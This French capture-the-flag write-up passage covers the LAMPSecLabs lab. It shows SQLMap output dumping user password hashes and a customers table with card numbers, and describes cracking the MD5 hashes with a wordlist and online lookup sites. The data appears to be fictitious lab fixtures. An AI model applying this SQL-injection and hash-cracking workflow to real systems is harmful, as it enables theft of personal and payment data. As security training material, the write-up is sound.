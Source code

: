 ```console
| 4       | eve           | Evil Eve           | member3.jpg  | Surveillance and Interception | 4c4999ac17adcef1a5a75fab71e5c857 |
| 5       | alice         | Alice Secret       | member4.jpg  | Cryptographer                 | fdfaf065cbbfe6e453229e536924b0f1 |
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
```

Non seulement __SQLMap__ peut identifier et exploiter des injections SQL, mais il est aussi en mesure de lancer des [attaques par dictionnaire](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf), dès lors qu'il identifie des hashs de mots de passe dans une base de données. Avec son dictionnaire par défaut ```/usr/share/sqlmap/txt/wordlist.zip```, SQLMap retrouve les mots de passe de trois utilisateurs : ```invisible``` (eve), ```billybob``` (bob) et ```hacking``` (administrator). Une recherche sur [__CrackStation__](https://crackstation.net/) puis sur [__HashKiller__](https://hashes.com/en/decrypt/hash) permet d'obtenir les mots de passe manquants.

![Affichage de l'image CTF9_MD5_user_hashes.png](images/CTF9_MD5_user_hashes.png)

```
dab64765f3d4fc29ced777be274337ea MD5 : hacking
b6e4e4d617ec2406cea4555a5c40e137 MD5 : madirish.net
93b542f0c7a6f2279fc94f44b013baf1 MD5 : billybob
4c4999ac17adcef1a5a75fab71e5c857 MD5 : invisible
fdfaf065cbbfe6e453229e536924b0f1 MD5 : $investment$
```

Enfin, on parvient à extraire la table ```customers``` de la base de données, où sont stockées les informations personnelles et bancaires des clients de LAMPSecLabs... oops!

```console
Database: lampsec
Table: customers
[8 entries]
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
| id | ccn              | email                      | phone        | company                       | address                           | lastname | cardtype   | firstname |
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
| 1  | 4929597982490216 | jdoe@example.com           | 215-555-5555 | Foo Corp.                     | 1 No Way, Springfield OH          | Doe      | visa       | John      |
| 2  | 5187594592045450 | mrbig@example.com          | 800-555-5555 | Expensive Financial           | 32 Wall Stree, New York City, NY  | Big      | mastercard | Adam      |
| 3  | 4532320014916572 | beth@example.com           | 340-555-5555 | Designer Delivery             | 512 Wisconson Ave, Washington, DC | Piazza   | visa       | Beth      |
| 4  | 4556677062764704 | chuck@example.com          | 710-555-5555 | Andercorp                     | PO Box 5322, Crown Heights, CA    | Flight   | visa       | Charles   |
| 5  | 4716963701268852 | susan.mccormac@example.com | 445-555-5555 | Worldwide Health Solutions    | 512 Riverside Dr., Sunnyvale, CA  | McCormac | visa       | Susan     |
| 6  | 5584427594534230 | richard@example.com        | 888-555-5555 | Electric Iron                 | 212 Industrial Lane, Chicago, IL  | Dripple  | mastercard | Richard   |
| 7  | 342348714249117  | cynthia.turner@example.com | 556-555-5555 | Statewide Logistics LLC       | 50 Drury Lane, Brighton OH        | Turner   | amex       | Cynthia   |
| 8  | 349875331264122  | zeldas@example.com         | 761-555-5555 | Conductive Manufacturing Corp | 6 West 31 Street, Pittsburg PA    | Steaning | amex       | Zelda     |
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
```
